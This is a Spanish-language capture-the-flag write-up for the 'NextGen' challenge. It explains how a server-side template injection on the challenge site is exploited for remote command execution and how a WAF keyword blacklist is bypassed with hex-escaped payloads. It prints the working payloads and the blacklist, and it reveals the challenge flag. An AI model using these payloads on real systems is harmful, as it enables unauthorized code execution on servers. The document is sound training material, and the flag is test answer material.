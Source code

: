 # NextGen - N3XT_L3V3L

## Descripcion

> Dominio dado: https://fxc99.ctf.n3xtl3v3l.site/

## Solucion

Al momento de entrar al sitio web podemos ver un input que nos solicita ingresar nuestro nombre o un payload, ingresare mi nickname: **Vishok** para ver su respuesta

![[Pasted image 20250826193027.png]]

Si un input se ve reflejado en alguna parte de la web, puede significar claramente que en el servidor este corriendo una *template*, lo cual nos da un indicio de que posiblemente es vulnerable a *SSTI*, para verificar, usaremos algunos payloads SSTI

El que encaje a la perfeccion es: `{{7*7}}`, este payload equivale a plantillas *Jinja* o *Twig*, si hay un SSTI podemos ejecutar comandos en el servidor y asi obtener la flag mediante comandos. Ahora probaremos un payload mas complejo:

```
`{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}`
```

Estamos intentando ejecutar el comando `id`, pero el servidor nos responde con lo siguiente:

> WAF BLOCKED: Malicious keyword found.

Existe un *WAF* implementado, el cual captura probablemente algunas palabras que lleven a una ejecucion decomandos como el `os`, `import`, entre otras, revisando la web con las herramientas de desarrollo encontramos lo siguiente:

```
const WAF_BLACKLIST = [
    'config', 'self', 'class',
    'os', 'import', 'eval', 'exec', 'popen', 'system', 'subprocess',
    'read', 'write', 'open', 'builtins', 
]
```

Dentro del Js de la web nos dejaron una pista, todas las palabras que el WAF detecta en nuestras request, dado que no podemos usar `join`, o **concatenacion**, debemos buscar otra forma, que que estos metodos no son las funciones como tal, son solo **strings**, los cuales no sirven

- `{{''.join(['s','e','l','f'])}}
- `{{''.join(['o','s'])}}`

Nuestra mejor opcion es buscar alguna forma de bypasear el WAF usando codificacion *url*, *base64* o *hexadecimal*, en el proceso encontre esta web: https://www.thehacker.recipes/web/inputs/ssti. Donde se usa codificacion hexadecimal

```
# \x5f is equal to _
{{ request['application']['\x5f\x5fglobals\x5f\x5f']['\x5f\x5fbuiltins\x5f\x5f']['\x5f\x5fimport\x5f\x5f']('os')['popen']('id')['read']() }}

# This payload is the same than the previous one
{{ request['\x61\x70\x70\x6c\x69\x63\x61\x74\x69\x6f\x6e']['\x5f\x5f\x67\x6c\x6f\x62\x61\x6c\x73\x5f\x5f']['\x5f\x5f\x62\x75\x69\x6c\x74\x69\x6e\x73\x5f\x5f']['\x5f\x5f\x69\x6d\x70\x6f\x72\x74\x5f\x5f']('\x6f\x73')['\x70\x6f\x70\x65\x6e']('\x69\x64')['\x72\x65\x61\x64']() }}
```

Por tanto

![[Pasted image 20250826195619.png]]

Usando este payload podemos ejecutar comandos en el servidor, pero primero debemos encontrar donde esta la flag para despues leer su contenido, por lo que ocupamos codificar a hexadecimal los comandos `ls` y `cat flag.txt`

- `6c 73` = `ls` 
- `0a 63 61 74 20 66 6c 61 67 2e 74 78 74` = `cat flag.txt`

Primero buscaremos donde esta la flag

![[Pasted image 20250826200052.png]]

Lo unico que debemos hacer es sustituir el payload por el nuevo y listo, la flag esta en la misma ruta que estamos, asi que solo debemos usar el comando anterior sin modificaciones

- `echo '63 61 74 20 66 6c 61 67 2e 74 78 74' | sed -e 's/ /\\x/g'`

![[Pasted image 20250826200626.png]]

> La flag es: `n3xt{sst1_m4k3_4_p3rf3ct_ch4ll3ng3}`

